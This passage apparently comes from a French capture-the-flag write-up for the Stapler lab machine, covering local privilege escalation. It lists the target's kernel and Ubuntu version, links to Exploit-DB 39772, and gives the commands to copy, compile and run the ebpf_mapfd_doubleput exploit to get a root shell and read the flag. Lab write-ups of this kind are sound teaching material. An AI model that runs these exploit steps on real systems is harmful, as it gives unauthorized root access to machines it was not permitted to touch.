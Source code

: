 ## On élève nos privilèges

Afin de réaliser l'élévation de privilèges, on se renseigne sur la version du
noyau linux ainsi que la version de la distribution utilisée:
```
lsb_realease -a
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04 LTS
Release:	16.04
Codename:	xenial

uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

Dans notre cas voici les ressouces utiles:

- [https://www.exploit-db.com/exploits/39772/](https://www.exploit-db.com/exploits/39772/)
- [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip)

```bash
scp 39772.zip SHayslett@stapler:/tmp
ssh SHayslett@stapler
cd /tmp/
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

On obtient alors un shell root: \

```
cat /root/flag.txt

~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

\pagebreak
